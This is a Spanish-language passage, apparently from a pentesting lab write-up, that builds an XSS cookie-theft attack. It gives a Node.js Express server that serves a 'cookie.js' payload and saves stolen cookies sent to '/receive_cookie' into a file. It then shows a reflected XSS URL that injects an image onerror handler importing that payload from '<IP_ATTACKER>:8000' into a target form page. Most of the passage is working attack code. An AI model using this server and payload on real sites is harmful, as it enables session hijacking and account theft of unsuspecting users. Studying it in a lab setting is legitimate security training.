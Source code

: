 > server.js

```js
const express = require('express');
const cors = require('cors');
const path = require('path');
const fs = require('fs'); // Asegúrate de importar 'fs'

const app = express();

// Habilitar CORS para todas las solicitudes
app.use(cors());

// Servir el archivo cookie.js
app.get('/cookie.js', (req, res) => {
    res.sendFile(path.join(__dirname, 'cookie.js'));
});

// Endpoint para recibir las cookies
app.get('/receive_cookie', (req, res) => {
    const cookie = req.query.cookie;
    if (cookie) {
        console.log("Cookie recibida: " + cookie);
        fs.appendFile('cookies.txt', cookie + '\n', err => {
            if (err) throw err;
            console.log('Cookie guardada');
        });
        res.send('Cookie recibida');
    } else {
        res.send('No cookie');
    }
});

// Iniciar el servidor en el puerto 8000
app.listen(8000, () => {
    console.log('Servidor Node.js corriendo en http://localhost:8000');
});
```

Ahora vamos a iniciar el servidor con `node` de la siguiente forma:

```shell
node server.js
```

Si nos vamos a la `URL` tendremos que poner lo mismo de antes, como en el principio de la siguiente forma:

```
URL = trr0rlabs.bbl/form.php/"><img src/onerror=import("http:<IP_ATTACKER>:8000/cookie.js")>
```

En la consola de la pagina veremos que ha funcionado:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
